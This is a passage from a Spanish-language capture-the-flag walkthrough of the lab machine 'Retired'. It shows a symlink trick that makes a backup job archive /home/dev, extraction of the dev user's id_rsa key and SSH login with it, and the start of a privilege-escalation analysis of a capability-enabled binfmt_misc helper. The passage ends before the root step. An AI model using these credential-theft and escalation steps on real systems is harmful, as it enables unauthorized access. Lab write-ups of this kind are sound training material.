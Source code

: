 o carpetas concretas hay que hacer la trampa con elnaces simbolicos:
```ln -s -f /home/dev /var/www/html``` Haz un enlace del /home/dev en /var/www/html
Ahora vemos el nuevo archivo que se ha creado y lo copiamos antes de que desaparezca:
```console
www-data@retired:/tmp$ watch -n 1 ls /var/www/
# Se crea 2023-01-22_10-18-00-html.zip
www-data@retired:/tmp$ cp /var/www/2023-01-22_10-18-00-html.zip /tmp
```
Si lo abrimos veremos que está todo el /home/dev por culpa del enlace
```console
www-data@retired:/tmp$ cd /tmp/
www-data@retired:/tmp$ unzip 2023-01-22_10-18-00-html.zip
www-data@retired:/tmp$ cd ./var/www/html
www-data@retired:/tmp/var/www/html$ cd dev
www-data@retired:/tmp/var/www/html/dev$ ls -la
drwx------ 2 www-data www-data 4096 Mar 11  2022 .ssh
drwx------ 2 www-data www-data 4096 Mar 11  2022 activate_license
drwx------ 3 www-data www-data 4096 Mar 11  2022 emuemu
```
Si nos copiamos su id_rsa del directorio .shh y le damos los permisos ```chmod 600 ir_rsa``` podemos acceder por ssh a dicho usuario.
```ssh -i id_rsa dev@10.10.11.154```

-------------------
# Part 7: Escalada de privilegios a root: reg_helper

En el home esta el bianrio activate_licens que explotamos antes, la flag y la carpeta emuemu (mencionada en la web)
```console
dev@retired:~/emuemu$ ls
Makefile  README.md  emuemu  emuemu.c  reg_helper  reg_helper.c  test
dev@retired:~/emuemu$ cat README.md 

EMUEMU es el software oficial de emulado para la consola OSTRICH
Despues de la instalación con 'make install', las ROMs de OSTRICH pueden ser ejecutados desde el terminal.
Por ejemplo la ROM llamada 'rom' se puede correr con './rom'
```
Tambien tenemos emuemu.c que simplemente imprime "EMUEMU está todavia en desarollo"
Luego tenemos reg_helper.c
```c
#define _GNU_SOURCE
int main(void) {
    char cmd[512] = { 0 };   // Buffer vario de 512 bytes "cmd"
    read(STDIN_FILENO, cmd, sizeof(cmd)); cmd[-1] = 0;   // Lee del standar imput el cmd
    int fd = open("/proc/sys/fs/binfmt_misc/register", O_WRONLY);  // Abre /proc/sys/fs/binfmt_misc/register para escritura
    if (-1 == fd)
        perror("open");
    if (write(fd, cmd, strnlen(cmd,sizeof(cmd))) == -1)   // Escribe el cmd dentro
        perror("write");
    if (close(fd) == -1)
        perror("close");
	return 0;}
```
El makefile tiene dos lineas interesantes:
```
setcap cap_dac_override=ep /usr/lib/emuemu/reg_helper
echo ':EMUEMU:M::\x13\x37OSTRICH\x00ROM\x00::/usr/bin/emuemu:' | tee /usr/lib/binfmt.d/emuemu.conf | /usr/lib/emuemu/reg_helper
```
Es decir mete en /usr/lib/binfmt.d/emuemu.conf esa linea rara ':EMUEMU:M::..' y de ahi a reg_helper, que dice que todo lo que le entre ira 
a /proc/sys/fs/binfmt_misc/register
